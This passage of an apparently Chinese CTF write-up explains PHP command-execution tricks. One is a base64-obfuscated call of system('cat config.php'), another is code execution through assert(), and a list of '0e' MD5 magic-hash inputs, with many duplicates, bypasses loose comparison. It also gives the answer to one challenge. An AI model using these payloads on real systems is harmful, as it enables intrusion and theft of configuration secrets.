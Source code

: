 6.借助php可以动态执行命令的特性，通过两个变量构造出欲执行的函数名称和参数，例如```$a = base64_decode('c3lzdGVt');$b=base64_decode('Y2F0IGNvbmZpZy5waHA=');$a($b);```

7.借助assert函数，```assert(assertion)```:assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的响应。如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。且assert中的字符串可以没有分号。

#### web16

这波反向跑路又秀到我了...答案是传入36d，爆破或者知道梗的就可以做出来emmm

这里简单总结一下md5相关的绕过：

##### 1.md5弱相等:if(md5($a)==md5(b) && $a!==$b)

通过寻找0e开头的md5绕过，0e开头的会被识别做科学计数法，结果都是0.

```
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
```